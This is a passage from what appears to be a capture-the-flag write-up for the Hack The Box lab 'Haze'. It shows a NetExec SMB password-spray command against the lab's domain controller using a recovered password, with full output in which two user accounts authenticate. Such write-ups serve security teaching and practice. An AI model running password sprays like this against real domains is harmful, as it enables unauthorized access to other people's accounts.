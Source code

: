 Let's use this list of users to password spray.

```bash
nxc smb haze.htb -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success

SMB         10.129.228.118  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.118  445    DC01             [-] haze.htb\Enterprise Read-only Domain Controllers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Administrator:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Guest:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\krbtgt:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Domain Admins:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Domain Users:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Domain Guests:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Domain Computers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Domain Controllers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Cert Publishers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Schema Admins:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Enterprise Admins:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Group Policy Creator Owners:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Read-only Domain Controllers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Cloneable Domain Controllers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Protected Users:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Key Admins:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Enterprise Key Admins:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\RAS and IAS Servers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Allowed RODC Password Replication Group:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Denied RODC Password Replication Group:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\DC01$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\DnsAdmins:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\DnsUpdateProxy:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
SMB         10.129.228.118  445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
SMB         10.129.228.118  445    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\gMSA_Managers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
```